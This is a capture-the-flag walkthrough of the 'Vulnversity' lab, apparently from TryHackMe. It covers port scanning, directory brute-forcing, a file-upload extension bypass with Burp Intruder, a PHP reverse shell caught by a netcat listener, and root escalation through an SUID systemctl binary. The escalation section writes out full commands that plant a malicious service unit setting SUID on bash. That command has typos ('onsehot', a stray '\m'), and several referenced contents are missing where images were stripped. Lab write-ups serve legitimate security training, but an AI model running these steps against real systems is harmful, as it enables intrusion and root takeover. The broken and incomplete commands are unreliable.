










# Vulnversity

## Introduction
"Learn about active recon, web app attacks and privilege escalation."

## Tasks
1. Reconnaissance
2. Locate directories using Gobuster
3. Compromise the Webserver
4. Privilege Escalation

## Walktrough

### Reconnaissance 
Command: `nmap -Pn -sV [target IP]`
- Scans for open ports and listening services and their versions without the ping scan (host discovery)

----

### Locate directories using Gobuster
Command: `gobuster dir -u http://[target IP]:[target port] -w /usr/share/wordlists/dirb/common.txt`
- Gobuster - a tool for reconnasissance and ethical hacking that is used for force browsing website's directories in this case
- `gobuster dir` - a command for finding a website's hidden directories and files
- `-u` - target URL specification
- `-w` - wordlist file to be used
- `/usr/share/wordlists/dirb/common.txt` - a relatively small but effective list of directory names

---

### Compromise the Webserver
#### 1. Identify what file extension the server accepts
Tool: Burp Suite - used for web traffic interception and manipulation

1. Open Burp Suite and its browser

2. Enter the website's URL with its hidden directory

3. Turn the `Intercept` traffic on on Burp Suite

4. Upload a php file

5. Forward the traffic to `Intruder`
6. On `Payloads`, select `Sniper attack`
7. Create a text file with the following content.

8. Select `Runtime file` and put the text file's directory.
9. On the `filename` field, click `Add §` to the extension. It should look like this:

10. Click `Start attack`
11. Look at the window that will appear after and look for an extension that has `Success` feedback in it.

#### 2. Get a Reverse Shell
- Force the target machine to initiate a connection with the attacker to gain remote access

1. Download the PHP reverse shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
2. Edit it using `nano` and replace the IP with your `tun0` IP
3. Listen to incoming connections using `netcat`

   - Command: `nc -lvnp 1234` - wait for connections on port 1234

5. Upload the PHP file to the webserver

5. Visit `http://[target IP]:[target port]/internal/uploads/[PHP reverse shell filename]`

- netcat should catch the shell after that

---

### Privilege Escalation
1. Look for files with SUID
   - Command: `find / -perm 4000 -type f 2>/dev/null`
       - `find` - a command for finding files
       - `/` - start from the highest directory/search all directories
       - `-perm 4000 -type f` - search for files with SUID permissions
       - `2>/dev/null` - put error messages to /dev/null
   - Set User ID (SUID) - files with these permission run with the permission of the owner
2. Exploit `/bin/systemctl` with SUID using the following commands:
      1. `printf "[Service]\nType=onsehot\nExecStart=/bin/sh -c 'chmod +s /bin/bash'\n[Install]\nWantedBy=multi-user.target\m" > /tmp/exploit.service`
      2. `/bin/systemctl link /tmp/exploit.service`
      3. `/bin/systemctl enable --now /tmp/exploit.service`
      4. `bash -p`
  

